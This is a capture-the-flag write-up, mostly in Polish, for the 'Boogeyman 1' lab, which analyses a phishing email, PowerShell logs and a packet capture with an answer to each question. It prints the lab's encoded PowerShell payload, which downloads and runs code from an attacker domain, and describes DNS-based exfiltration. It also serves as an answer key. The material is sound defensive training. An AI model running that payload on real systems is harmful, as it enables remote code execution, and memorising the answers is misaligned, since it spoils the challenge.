 # BOXTITLE: Boogeyman 1
TASK1
W boxie tym naszym zadaniem jest przeanalizowanie TTPs'a wykonanego na maszynie.
Całe zadanie zostało podzielone na 3 etapy:
Etap1 - Analiza maila phishingowego
Etap2 - Analiza logów powershella
Etap3 - Analiza logów pakietów internetowych

---
## Task1
**Q:** Let's hunt that boogeyman!
**A:** No answer needed

---



TASK2
Q: What is the email address used to send the phishing email?

W: Przechodzimy do folderu z artefaktami, znajdujemy plik dump.eml który otwieramy w aplikacji thunderbird mail. Informacje o nadawcy maila możemy uzyskać bez głębszego analizowania maila, wartość dla pola From:.

A: agriffin@bpakcaging.xyz



Q: What is the email address of the victim?

W: Informacje o odbiorcy maila możemy zauważyć bez glębszego analizowania maila, wartość dla pola To:.

A: julianne.westcott@hotmail.com



Q: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

w: Przechodzimy do More>Show Source, wyszukujemy pole DKIM-Signature, nazwa serwisu znajduje sie w polu p=.

A: elasticemail


Q: What is the name of the file inside the encrypted attachment?

W: Pobieramy załącznik i rozpakowywujemy go na spreparowanym sandboxie przy użyciu hasła zawartego w mailu.

A: Invoice_20230103.lnk


Q: What is the password of the encrypted attachment?

W: Hasło znajdujemy bezpośrednio w mailu.

A: Invoice2023!



Q: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

W: Uruchamiamy cmd, przechodzimy na Desktop, wykonujemy komende lnkparse nazwa_pliku. Informacja o komendzie możemy dostrzec w polu Command line arguments po fladze -enc.

A: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==





TASK3

Q: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

W: Uruchamiamy cmd w folderze zawierajacym artefakt jsona, wykonujemy komende:
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq
W polu ScriptBlockText $s= możemy zauważyć pierwsza domene ktora posłużyła do ataku, następną domene możemy odczytać poniżej.

A: cdn.bpakcaging.xyz,files.bpakcaging.xyz



Q: What is the name of the enumeration tool downloaded by the attacker?

W: Nazwe pobranego narzędzia możemy dostrzec po uruchomieniu tej samej komendy, wyszukujemy w treści wartość .exe

A: seatbelt



Q: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

W: W tym samym miejscu możemy odszukac wartosc zależne od sq3.exe, w tym sqlite.

A: C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite



Q: What is the software that uses the file in Q3?

W: W tym samym miejscu możemy zauważyć wiele wspomnień dla MicrosoftStickyNotes, również w tym gdzie plik wykonywalny został zapisany.

A: Microsoft Sticky Notes



Q: What is the name of the exfiltrated file?

W: W tym samym miejscu, szukamy gdzie dane mogłybyć zapisane, jest to jeden z końcowych etapów ataków więc informacji o tym szukamy na końcu logów.

A: protected_data.kdbx



Q: What type of file uses the .kdbx file extension?

W: Informacje o tym możemy znaleść w zewnętrznych źródłach.

A: keepass



Q: What is the encoding used during the exfiltration attempt of the sensitive file?

W: Informacje o tym możemy znaleść w miejscu gdzie dane są wysyłane, np w tym samym ciagu co metoda POST, odnajdujemy informacje o tym na poczatku, w polu ScriptBlockText $split = 

A: hex



Q: What is the tool used for exfiltration?

W: W tym samym miejscu co kodowanie możemy znaleść informacje o narzędziach użytych do wysłania danych.

A: nslookup



TASK4

Q: What software is used by the attacker to host its presumed file/payload server?

W: Uruchamiamy capture.pcapng przy użyciu Wiresharka, wiemy nazwe pliku oraz to ze zawartosc zostala przeslana poprzez protokół http. Filtrujemy ruch poprzez filtr:
http contains "files.bpakcaging.xyz", dostrzegamy 5 pakietów. Przechodzimy na początek, prawy na pakiet, Follow > TCP Stream. Podążanie za potokiem pakietu z początku ataku pozwala na dokładną analizę komunikacji podczas ataku. W wartosc przesyłanych przez serwer w polu Server: możemy dostrzec oprogramowanie serwera

A: python



Q: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez POST'a

A: POST



Q: What is the protocol used during the exfiltration activity?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez nslookup czyli protokół dns'a

A: dns



Q: What is the password of the exfiltrated file?

W: W poprzednich zadaniach mogliśmy dostrzec plik sq3.exe który posłużył do zebrania danych z urządzenia.
Otwieramy Wiresharka oraz nasz plik pcapng, wyszukujemy pakietów które zawierają ten plik czyli filtr:
http contains "sq3.exe". Dostrzegamy 4 pakiety. Śledzimy Potok TCP pierwszego, możemy zauważyć, że numerem tego potoku jest 749, sprawdzamy co stało się następnie czyli dla potoku o numerze 750.
Dostrzegamy zakodowany ciąg liczbowy. Wprowadzamy ten ciąg do CyberChefa z wyszukiwaniem jakim algorytmem został zakodowany czyli operacja "Magic". Otrzymujemy entropie 5.33 dla kodowania From_Decimal('Space',false). Stosujemy tą operację zamiast Magic, uzyskujemy tym samym jawne dane, w tym hasło które posłużyło do zakodowania bazy danych.

A: %p9^3!lL^Mz47E2GaT^y



Q: What is the credit card number stored inside the exfiltrated file?

W: W celu uzyskania informacji o karcie, musimy odczytać tą zawartość z bazy danych.
Możemy zastosować następującą komende w cmd:
tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'
która odczyta plik pcap, nałoży filtr dns a następnie odpowiednio podzieli dane tabel. Tak uzyskany ciąg tekstowy musimy odkodować z hexowego np w cyberchefie. Zapisując wyniki z cyberchefa w formie nazwapliku.kdbx pozwala na uzyskanie dostepu do bazy danych poprzez program KeePassX wraz z podaniem hasła które uzyskaliśmy w poprzednim pytaniu.


A: 4024007128269551

